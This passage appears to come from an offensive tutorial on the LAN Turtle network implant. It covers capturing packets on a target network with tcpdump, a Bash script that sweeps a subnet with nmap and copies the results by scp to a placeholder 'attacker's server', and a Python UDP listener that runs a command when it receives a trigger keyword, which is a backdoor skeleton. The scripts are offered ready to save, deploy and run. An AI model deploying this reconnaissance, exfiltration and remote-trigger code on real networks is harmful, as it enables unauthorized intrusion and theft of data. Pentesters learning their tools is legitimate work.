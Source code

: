 8. Packet Sniffer:
   - You can capture packets from the target network using a simple packet capture tool such as `tcpdump`.
   - Example usage:
     ```bash
     turtle# tcpdump -i eth0 -w capture.pcap
     ```

# Scripting with LAN Turtle

The LAN Turtle runs a Linux environment, which allows you to create custom scripts using languages such as Bash or Python.

#### Custom Bash Script Example
Below is a simple Bash script that runs network discovery and sends the results to a remote server.

```bash
#!/bin/bash

# Network Discovery
nmap -sP 192.168.1.0/24 > /tmp/nmap_scan.txt

# Upload the results to the attacker's server
scp /tmp/nmap_scan.txt user@<attack_ip>:/path/to/save/
```

1. Save this script as `scan_and_upload.sh`.
2. Transfer it to the LAN Turtle.
3. Add execution permissions:
   ```bash
   chmod +x scan_and_upload.sh
   ```
4. Run the script:
   ```bash
   ./scan_and_upload.sh
   ```

#### Custom Python Script Example
This Python script listens on the network for a specific keyword and executes a command when detected.

```python
import socket

# Setup the UDP listener
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind(('0.0.0.0', 8080))

while True:
    data, addr = sock.recvfrom(1024)  # Buffer size is 1024 bytes
    if b"trigger" in data:
        print("Keyword detected! Running command...")
        # Insert any shell command or script here
```
